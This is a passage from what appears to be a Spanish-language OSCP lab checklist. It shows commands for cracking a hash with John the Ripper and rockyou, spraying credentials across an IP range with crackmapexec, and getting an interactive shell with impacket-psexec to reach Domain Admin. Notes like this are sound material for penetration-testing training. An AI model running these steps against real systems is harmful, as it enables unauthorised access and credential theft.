         - Ahora procedemos a crackearlo con john the ripper:
        
        ```jsx
        john it-users.hash —wordlist=/usr/share/wordlists/rockyou.txt
        ```
        
        ![Untitled](Prepare%20Check%20List%203f2280f0f72a44d3a274379713148bba/Untitled%208.png)
        
        - Descomprimimos: `7z x it-users.zip` y ponemos la contraseña
    
    - Si queremos probar con crackmapexec varios usuarios y contraseñas en varias IP:
    
    ```jsx
    crackmapexec smb 10.10.10.20-10.10.10.22 -u users -p passwords -d oscp.lab --continue-on-success
    ```
    
    - Los que pongan Pwnn3d! es que son credenciales con acceso de administrador en algún equipo
    
    - Para obtener una shell interactiva cuando encontramos credenciales de administrador, usamos el módulo **psexec de impacket:**
        
        ```jsx
        impacket-psexec oscp/emmet@10.10.10.20
        ```
        
        ![Untitled](Prepare%20Check%20List%203f2280f0f72a44d3a274379713148bba/Untitled%209.png)
        
    - Si ahora hacemos un `net user lord_busines /domain` vemos que es un Domain Admin (Bingo!!!!)
    